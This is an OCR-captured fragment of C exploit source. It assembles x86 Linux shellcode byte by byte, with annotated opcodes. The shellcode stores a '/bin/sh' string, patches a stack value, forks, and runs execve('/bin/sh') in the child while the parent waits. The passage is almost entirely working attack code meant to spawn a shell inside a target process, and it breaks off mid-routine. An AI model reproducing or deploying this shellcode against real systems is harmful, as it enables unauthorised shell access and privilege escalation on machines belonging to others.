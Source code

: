  LBuf=(unsigned long*)&CBuf[BinShAddressOffset];
 *LBuf=BufferAddress+BinShOffset; //address of "/bin/sh"

 memcpy(&CBuf[BinShOffset],BinSh,BinShSize); //"/bin/sh" string

 //shellcode:
  
 i=ShellCodeOffset;
 CBuf[i++]='\x55';                                   //pushl %ebp
 CBuf[i++]='\x89';CBuf[i++]='\xE5';                  //movl %esp,%ebp
 CBuf[i++]='\x31';CBuf[i++]='\xC0';                  //xorl %eax,%eax
 CBuf[i++]='\xB0';CBuf[i++]=StackCodeSize;           //movb $StackCodeSize,%al
 CBuf[i++]='\x29';CBuf[i++]='\xC4';                  //subl %eax,%esp
 
 CBuf[i++]='\x57';                                   //pushl %edi
 CBuf[i++]='\x56';                                   //pushl %esi
 CBuf[i++]='\x52';                                   //pushl %edx 
 CBuf[i++]='\x51';                                   //pushl %ecx 
 CBuf[i++]='\x53';                                   //pushl %ebx  
 CBuf[i++]='\x9C';                                   //pushf
 
 CBuf[i++]='\xFC';                                   //cld

 CBuf[i++]='\x31';CBuf[i++]='\xC0';                  //xorl %eax,%eax
 CBuf[i++]='\x66';CBuf[i++]='\xB8';                  //movw $AddThis,%ax
 SBuf=(unsigned short*)&CBuf[i];*SBuf=AddThis;i=i+2;
 CBuf[i++]='\x29';CBuf[i++]='\x45';CBuf[i++]='\x08'; //subl %eax,0x8(%ebp)

 CBuf[i++]='\x31';CBuf[i++]='\xC0';                  //xorl %eax,%eax
 
 CBuf[i++]='\xBF';                        //movl $BufferAddress+$NullOffset,%edi
 LBuf=(unsigned long*)&CBuf[i];*LBuf=BufferAddress+NullOffset;i=i+4;  
 CBuf[i++]='\xAB';                                   //stosl %eax,%es:(%edi)

 CBuf[i++]='\xBF';                     //movl $BufferAddress+$BinSh00Offset,%edi
 LBuf=(unsigned long*)&CBuf[i];*LBuf=BufferAddress+BinSh00Offset;i=i+4;
 CBuf[i++]='\xAA';                                   //stosb %al,%es:(%edi)

 CBuf[i++]='\xB0';CBuf[i++]='\x02';                  //movb $0x2,%al
 CBuf[i++]='\xCD';CBuf[i++]='\x80';                  //int $0x80 (fork())
 
 CBuf[i++]='\x31';CBuf[i++]='\xD2';                  //xorl %edx,%edx
 CBuf[i++]='\x39';CBuf[i++]='\xD0';                  //cmpl %edx,%eax
 CBuf[i++]='\x75';CBuf[i++]='\x10';                  //jnz +$0x10 (-> LFATHER)

 CBuf[i++]='\xB0';CBuf[i++]='\x0B';                  //movb $0xB,%al
 CBuf[i++]='\xBB';                       //movl $BufferAddress+$BinShOffset,%ebx
 LBuf=(unsigned long*)&CBuf[i];*LBuf=BufferAddress+BinShOffset;i=i+4; 
 CBuf[i++]='\xB9';                //movl $BufferAddress+$BinShAddressOffset,%ecx
 LBuf=(unsigned long*)&CBuf[i];*LBuf=BufferAddress+BinShAddressOffset;i=i+4; 
 CBuf[i++]='\x31';CBuf[i++]='\xD2';                  //xorl %edx,%edx
 CBuf[i++]='\xCD';CBuf[i++]='\x80';                  //int $0x80 (execve())
 
                                                     //LFATHER:
 CBuf[i++]='\x89';CBuf[i++]='\xD6';                  //movl %edx,%esi
 CBuf[i++]='\x89';CBuf[i++]='\xD1';                  //movl %edx,%ecx
 CBuf[i++]='\x89';CBuf[i++]='\xD3';                  //movl %edx,%ebx
 CBuf[i++]='\xF7';CBuf[i++]='\xD3';                  //notl %ebx
 CBuf[i++]='\x89';CBuf[i++]='\xD0';                  //movl %edx,%eax
 CBuf[i++]='\xB0';CBuf[i++]='\x72';                  //movb $0x72,%al
 CBuf[i++]='\xCD';CBuf[i++]='\x80';                  //int $0x80 (wait())
 